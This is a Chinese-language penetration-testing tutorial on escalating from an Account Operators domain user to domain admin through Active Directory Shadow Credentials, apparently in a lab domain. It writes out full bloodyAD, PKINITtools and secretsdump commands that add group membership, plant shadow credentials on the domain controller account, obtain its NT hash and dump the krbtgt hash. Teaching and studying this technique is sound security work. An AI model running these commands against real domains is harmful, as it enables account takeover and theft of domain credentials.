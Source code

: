 

# 域内用户如何利用 Shadow Credentials 提权到域管 - 先知社区

域内用户如何利用 Shadow Credentials 提权到域管

- - -

如果攻击者可以修改目标对象（用户或计算机帐户）msDS-KeyCredentialLink 属性并以证书形式附加备用凭据，则攻击者可以修改该属性进而接管 AD 用户或计算机帐户。  
在攻防项目中，有时候拿了高权限的域用户却因权限不够，没法直接导出 krbtgt 的 hash，在这种场景下就可以利用 Shadow Credentials 进行提权  
假设我们拿到了这个域账号

IT-manager@penson.org/ITPenson@123 永遠的神  
查看这个域账号属于 ACCOUNT OPERATORS 组，这个组的成员是就可以管理域用户和账户的

[![](assets/1708508983-e21f643fffc103474d062d4d5cf0e3d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172118-6761a76c-cfd1-1.png)

[![](assets/1708508983-9d457c56da53396d2a100b4eabf77215.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172120-68dc16b8-cfd1-1.png)  
但是是没办法拿到域控权限的，不属于 Adminstrators 组，是无法导出 krbtgt hash 的

[![](assets/1708508983-d815e940908f7863736252772605b52c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172132-6fbc68ac-cfd1-1.png)  
由此需要想办法提权到域控权限，因为 ACCOUNT OPERATORS 组可以管理域用户和账户，由此可以添加该用户到特殊权限组  
利用 bloodAD

```plain
bloodyAD.py --host 192.168.21.114 -d penson.org -u IT-manager -p ITPenson@123 永遠的神 add groupMember 'Administrator' IT-manager
```

[![](assets/1708508983-4aae26f7830a74efd6c48d6fc00b4bc4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172156-7e27fc62-cfd1-1.png)  
本来想直接加到 Administrator 组里，发现没有权限，那么应该加到哪个组呢？  
用 bloodhound 发现 ENTERPRISE KEY ADMINS 这个组可以 AddKeyCredentialLink，AddKeyCredentialLink 这个是什么意思呢？借用谷歌翻译  
ENTERPRISE KEY ADMINS@PENSON.ORG 组的成员能够写入 ADCS.PENSON.ORG 上的“msds-KeyCredentialLink”属性。写入此属性允许攻击者在对象上创建“影子凭证”并使用 kerberos PKINIT 作为主体进行身份验证。如果攻击者可以修改目标对象（用户或计算机帐户）msDS-KeyCredentialLink 属性并以证书形式附加备用凭据，则此技术允许攻击者接管 AD 用户或计算机帐户。

[![](assets/1708508983-9f9fa2fffdb12e2434b95fc168c5eb85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172207-8486e848-cfd1-1.png)  
尝试添加到 ENTERPRISE KEY ADMINS 这个组

```plain
python3.8 bloodyAD.py --host 192.168.21.114 -d penson.org -u IT-manager -p ITPenson@123 永遠的神 add groupMember 'ENTERPRISE KEY ADMINS' IT-manager
```

[![](assets/1708508983-aa1c2aebbc09d6890e7f1cffbba18f3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172242-9948663a-cfd1-1.png)  
为 AD$添加影子凭据

```plain
python3.8 bloodyAD.py --host 192.168.21.114 -d penson.org -u IT-manager -p ITPenson@123 永遠的神 add shadowCredentials AD$
```

[![](assets/1708508983-eb2643a107f6de3d7bf02a444adab11f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172303-a61e2c82-cfd1-1.png)

利用 PKINITtools 拿票据

```plain
python3.8 ../PKINITtools/gettgtpkinit.py -cert-pem QNEvQE57_cert.pem -key-pem QNEvQE57_priv.pem penson.org/AD$ QNEvQE57.ccache -dc-ip 192.168.21.114
```

[![](assets/1708508983-8ad1e8d23e7cd1f23039b2348c577fd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172331-b66c00f0-cfd1-1.png)  
获取 AD$hash

```plain
python3.8 ../PKINITtools/getnthash.py penson.org/AD$ -key 3053f5d8109dc862de65741e58945abd584910abbef89cd50c9478a977d4c8aa -dc-ip 192.168.21.114
```

[![](assets/1708508983-4f4769b736715117e708145c4fba81ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172349-c168b2dc-cfd1-1.png)

```plain
python3.8 secretsdump.py penson.org/ad\$@192.168.21.114 -just-dc-user PENSON/krbtgt -hashes :c0032e2567e4f12b7f8ba3e436db4177
```

这个时候可以发现成功提权了

[![](assets/1708508983-c0bf9fdf8de2d5032c8a8176df1bbc5c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220172409-cd8283e0-cfd1-1.png)

参考文章  
[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials)
